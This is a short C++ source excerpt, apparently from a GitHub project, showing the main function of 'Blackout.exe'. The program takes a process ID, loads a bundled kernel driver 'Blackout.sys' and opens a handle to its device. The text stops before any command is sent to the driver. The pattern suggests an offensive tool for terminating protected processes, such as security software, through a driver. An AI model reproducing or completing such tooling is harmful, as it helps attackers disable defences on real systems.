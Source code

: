 ```cpp
int
main(
    int argc,
    char** argv
) {

    if (argc != 3) {
        printf("Invalid number of arguments. Usage: Blackout.exe -p <process_id>\n");
        return (-1);
    }

    if (strcmp(argv[1], "-p") != 0) {
        printf("Invalid argument. Usage: Blackout.exe -p <process_id>\n");
        return (-1);
    }

    if (!CheckProcess(atoi(argv[2])))
    {
        printf("provided process id doesnt exist !!\n");
        return (-1);
    }

    WIN32_FIND_DATAA fileData;
    HANDLE hFind;
    char FullDriverPath[MAX_PATH];
    BOOL once = 1;

    hFind = FindFirstFileA("Blackout.sys", &fileData);

    if (hFind != INVALID_HANDLE_VALUE) { // file is found
        if (GetFullPathNameA(fileData.cFileName, MAX_PATH, FullDriverPath, NULL) != 0) { // full path is found
            printf("driver path: %s\n", FullDriverPath);
        }
        else {
            printf("path not found !!\n");
            return(-1);
        }
    }
    else {
        printf("driver not found !!\n");
        return(-1);
    }
    printf("Loading %s driver .. \n", fileData.cFileName);

    if (LoadDriver(FullDriverPath))
    {
        printf("faild to load driver ,try to run the program as administrator!!\n");
        return (-1);
    }

    printf("driver loaded successfully !!\n");

    HANDLE hDevice = CreateFile(L"\\\\.\\Blackout", GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("Failed to open handle to driver !! ");
        return (-1);
    }

    DWORD bytesReturned = 0;
    DWORD input = atoi(argv[2]);
```